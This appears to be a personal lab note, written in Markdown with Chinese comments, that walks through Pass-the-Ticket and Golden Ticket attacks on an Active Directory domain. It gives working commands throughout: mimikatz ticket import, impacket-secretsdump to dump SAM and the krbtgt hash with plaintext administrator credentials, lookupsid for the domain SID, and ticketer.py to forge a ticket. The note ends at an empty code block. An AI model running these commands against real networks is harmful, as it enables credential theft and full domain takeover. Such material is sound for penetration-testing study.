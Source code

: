 # Pass The Ticket
```
Windows + R : \\ADWin\c$
Copy mimikatz x64 票券過去

# Win Ad
Change Local Administrator Password
並重新登入Local Administrator

dir \\server2019.lpt.com\admin$ #驗證不會通過
cd 到剛剛複製的mimikatz x64資料夾
```
```bash
mimikatz #進入mimikatz

# 找到Administrator@krbtgt那張票匯入
kerberos::ptt "*.kirbi"

# 查看匯入的票券
kerberos::list
misc::cmd
klist

# 測試已經可以touch到AD
dir \\server2019.lpt.com\admin$

# 清除匯入的票據
kerberos::purge
```

# Golden Ticket Attack (TGT)
> 拿到DC的krbtgt帳號後，想幹嘛就幹嘛

Hashdump
```bash
# parrot
impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19

# 可以拿到SAM、krbtgt account
```
Domain SID
```bash
# parrot
python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0

# 取得Domain SID
```
Gen Golden Ticket
```bash
python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil

# nthash : krbtgt的後面那段
# evil 為帳號名稱
# 舊的Golden Ticket可以把票券發給一個不存在的帳號
# 後來上Patch後就不行這樣搞了
```
掛載票券
```bash
# Linux票券掛在環境變數KRB5CCNAME裡面
export KRB5CCNAME=~/evil.ccache
```
處理名稱解析的問題
```bash
```